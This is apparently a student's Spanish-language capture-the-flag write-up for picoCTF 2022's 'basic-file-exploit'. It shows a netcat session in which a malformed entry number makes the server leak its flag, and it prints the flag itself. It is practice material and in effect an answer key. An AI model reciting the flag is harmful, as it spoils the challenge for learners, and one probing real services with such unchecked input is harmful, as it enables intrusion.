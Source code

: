 # basic-file-exploit

---
## Objectivo

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!Connect to the program with netcat: $ nc saturn.picoctf.net 52682 The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/537/program-redacted.c).

---
## Solución

``` sh
angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/descargablesCTF/picoCTF2022/BinaryExplotation$ nc saturn.picoctf.net 52682
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
hola
hola
Please enter the length of your data:
1 
1
Your entry number is: 1
Write successful, would you like to do anything else?
1
1
Please enter your data:
no
no
Please enter the length of your data:
1
1
Your entry number is: 2
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
lkajsdlkfjasldfkjslakdjfklasjflksajdf
lkajsdlkfjasldfkjslakdjfklasjflksajdf
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}


```

### `picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}


---
## Notas adicionales




---
## Referencias

	